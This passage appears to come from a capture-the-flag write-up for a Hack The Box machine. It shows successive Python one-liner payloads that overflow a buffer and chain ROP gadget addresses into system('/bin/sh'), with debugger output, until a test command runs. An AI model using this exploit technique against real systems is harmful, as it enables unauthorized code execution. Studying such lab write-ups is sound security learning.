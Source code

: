 <p>Ok, let's put it together and see how it goes:</p>

{% highlight python %}
python -c 'print"A"*120 + 
"\x06\x12\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x52\x11\x40\x00\x00\x00\x00\x00" + 
"/bin/sh " + "C"*100' > custom5.txt
{% endhighlight %}

<p>
<img src="{{ '/assets/htb-safe/custom5.PNG' | relative_url }}">
</p>

<p>Wait a minute, that doesn't look right... It seems when attempting to execute it is pulling the first 8 characters before the stack in addition to what is on the stack. Essentially bytes 112-120, or what we overwrite into <code>$rbp</code>. Ok we can work with that. Let's adjust the exploit.</p>

{% highlight python %}
python -c 'print "A"*112 + "/bin/sh " + 
"\x06\x12\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x52\x11\x40\x00\x00\x00\x00\x00" + 
"/bin/sh " + "C"*100' > custom6.txt
{% endhighlight %}

<p>This also didn't work. But knowing where to look we took a look at our <code>system()</code> call and see what <code>$rdi</code> looks like.</p>

{% highlight shell %}
system@plt (
   $rdi = 0x00007fffffffe1a8 → "/bin/sh /bin/sh CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC[...]",
   $rsi = 0x0000000000405260 → "What do you want me to echo back? AAAAAAAAAAAAAAAA[...]"
)
{% endhighlight %}

<p>Ok, we are calling <code>/bin/sh</code> properly. Now we need to replace that second instance with the command we want to run and also terminate the command to avoid chaining the rest of the stack. I forgot to terminate on the next attempt, however that irrelevant as I managed to get my test command executed! At this point I was over the moon.</p>

{% highlight python %}
python -c 'print "A"*112 + "/bin/sh;" + 
"\x06\x12\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x6e\x11\x40\x00\x00\x00\x00\x00" + 
"\x52\x11\x40\x00\x00\x00\x00\x00" + 
"/bin/sh whoami" + "C"*100' > custom9.txt
{% endhighlight %}
